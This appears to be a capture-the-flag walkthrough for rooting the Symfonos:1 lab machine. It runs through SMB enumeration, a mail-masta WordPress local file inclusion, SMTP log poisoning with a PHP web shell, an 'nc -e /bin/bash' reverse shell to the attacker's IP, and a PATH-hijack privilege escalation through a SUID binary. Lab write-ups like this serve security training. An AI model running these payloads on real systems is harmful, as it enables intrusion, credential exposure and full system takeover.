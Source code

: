 Before scanning the machine, the creator said that we may need to update our host file to symfonos.local, so we add '10.0.0.20 symfonos.local' to the hosts file.

root@kali ~/D/C/SYMFONOS#1# nmap -sS -A -T4 -p- 10.0.0.20

22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 ab:5b:45:a7:05:47:a5:04:45:ca:6f:18:bd:18:03:c2 (RSA)
|   256 a0:5f:40:0a:0a:1f:68:35:3e:f4:54:07:61:9f:c6:4a (ECDSA)
|_  256 bc:31:f5:40:bc:08:58:4b:fb:66:17:ff:84:12:ac:1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:DF:88:1A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

We can see the open shares on Samba:

root@kali ~/D/C/SYMFONOS#1# smbclient -L //10.0.0.20/

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        helios          Disk      Helios personal share
        anonymous       Disk      
        IPC$            IPC       IPC Service (Samba 4.5.16-Debian)

root@kali ~/D/C/SYMFONOS#1# smbclient //10.0.0.20/anonymous
Enter WORKGROUP\root's password: 
smb: \> ls
  .                                   D        0  Fri Jun 28 21:14:49 2019
  ..                                  D        0  Fri Jun 28 21:12:15 2019
  attention.txt                       N      154  Fri Jun 28 21:14:49 2019

By going to the anonymous share we can read the attention.txt file:

Can users please stop using passwords like 'epidioko', 'qwerty' and 'baseball'! 

Next person I find using one of these passwords will be fired!

-Zeus

Now that we some passwords let's try accessing helios share with the helios user.

root@kali ~/D/C/SYMFONOS#1# smbclient //10.0.0.20/helios -U helios
Enter WORKGROUP\helios's password: qwerty
smb: \> ls
  .                                   D        0  Fri Jun 28 20:32:05 2019
  ..                                  D        0  Wed Feb  2 14:56:32 2022
  research.txt                        A      432  Fri Jun 28 20:32:05 2019
  todo.txt                            A       52  Fri Jun 28 20:32:05 2019

                19994224 blocks of size 1024. 16902192 blocks available
smb: \> 
 
todo.txt:

1. Binge watch Dexter
2. Dance
3. Work on /h3l105

The research.txt file doesn't have any useful information but the todo list shows us the there is a directory on the webserver named "h3l105". after going to http://symfonos.local/h3l105/ we can see that is a Wordpress site, we can use "wpscan".

root@kali ~/D/C/SYMFONOS#1# wpscan --url http://symfonos.local/h3l105/ --enumerate ap,vt,u

"wpscan" found some really useful information, the user admin is avaialble, I tried brute forcing the password but it didn't work. We also found that the site has 2 plugins:

site-editor
mail-masta

root@kali ~/D/C/SYMFONOS#1# searchsploit -m php/webapps/40290.txt

Turns out mail-masta allows Directory Traversal, through that we can do a Local File Inclusion (When an application uses a file path as an input, some sites treats that input as trusted and safe. A local file can then be injected into the included statement). 

40290.txt:
Typical proof-of-concept would be to load passwd file:


http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

Going to http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd we can see that the user "helios" is a user on the machine.
At this point I got a little stuck, I searched online for "Local File Inclusion remote command execution" and found out that if we can upload to a file on the machine this php script ---> <?php system($_GET['c']); ?> we can perform remote code execution on the machine. I went back to the NMAP scan and saw port 25 is open, maybe we can send a mail and open it using the Local File Inclusion expliot and perform remote execution.

root@kali ~/D/C/SYMFONOS#1# telnet 10.0.0.20 25
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
mail from: <hacker>
250 2.1.0 Ok
rcpt to: helios@symfonos.localdomain
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
<?php system($_GET['c']); ?>
.
250 2.0.0 Ok: queued as 9A174408A4

Going to http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios we can read our sent email, trying to run the "whoami" command we can see that we are the "helios" user.

Setting up a listener on our local machine we can connet via a reverse shell to the remote machine.

symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=nc -e /bin/bash 10.0.0.27 4444

root@kali ~/D/C/SYMFONOS#1# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.0.27] from (UNKNOWN) [10.0.0.20] 53434

We can get a better shell using ---> python2 -c 'import pty; pty.spawn("/bin/bash")'

Going to the home folder there is only the share that we already enumerated on Samba. Let's try to find SUID files.

helios@symfonos:/home/helios$ find / -perm /4000 2> /dev/null

There is one odd file ---> /opt/statuscheck. 
/opt/statuscheck:

helios@symfonos:/home/helios$ /opt/statuscheck
HTTP/1.1 200 OK
Date: Thu, 03 Feb 2022 16:51:56 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Sat, 29 Jun 2019 00:38:05 GMT
ETag: "148-58c6b9bb3bc5b"
Accept-Ranges: bytes
Content-Length: 328
Vary: Accept-Encoding
Content-Type: text/html

After running the command it seems to be outputing a response to a webserver, probably by using the "curl" command.

helios@symfonos:/home/helios$ strings /opt/statuscheck
...
curl -I H
http://lH
ocalhostH
...

Using the strings command we can confirm that the "curl" command is being used. We can try to change the PATH variable and create a file name curl that opens a new shell.

helios@symfonos:/home/helios$ echo '/bin/bash' >> /tmp/curl
helios@symfonos:/home/helios$ ls /tmp
curl

helios@symfonos:/tmp$ export PATH=/tmp
helios@symfonos:/tmp$ /opt/statuscheck
# 
# export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

We can go the /root directory and read the proof.txt file.

proof.txt

        Congrats on rooting symfonos:1!

                 \ __
--==/////////////[})))==*
                 / \ '          ,|
                    `\`\      //|                             ,|
                      \ `\  //,/'                           -~ |
   )             _-~~~\  |/ / |'|                       _-~  / ,
  ((            /' )   | \ / /'/                    _-~   _/_-~|
 (((            ;  /`  ' )/ /''                 _ -~     _-~ ,/'
 ) ))           `~~\   `\\/'/|'           __--~~__--\ _-~  _/, 
((( ))            / ~~    \ /~      __--~~  --~~  __/~  _-~ /
 ((\~\           |    )   | '      /        __--~~  \-~~ _-~
    `\(\    __--(   _/    |'\     /     --~~   __--~' _-~ ~|
     (  ((~~   __-~        \~\   /     ___---~~  ~~\~~__--~ 
      ~~\~~~~~~   `\-~      \~\ /           __--~~~'~~/
                   ;\ __.-~  ~-/      ~~~~~__\__---~~ _..--._
                   ;;;;;;;;'  /      ---~~~/_.-----.-~  _.._ ~\     
                  ;;;;;;;'   /      ----~~/         `\,~    `\ \        
                  ;;;;'     (      ---~~/         `:::|       `\\.      
                  |'  _      `----~~~~'      /      `:|        ()))),      
            ______/\/~    |                 /        /         (((((())  
          /~;;.____/;;'  /          ___.---(   `;;;/             )))'`))
         / //  _;______;'------~~~~~    |;;/\    /                ((   ( 
        //  \ \                        /  |  \;;,\                 `   
       (<_    \ \                    /',/-----'  _> 
        \_|     \\_                 //~;~~~~~~~~~ 
                 \_|               (,~~   
                                    \~\
                                     ~~

        Contact me via Twitter @zayotic to give feedback!


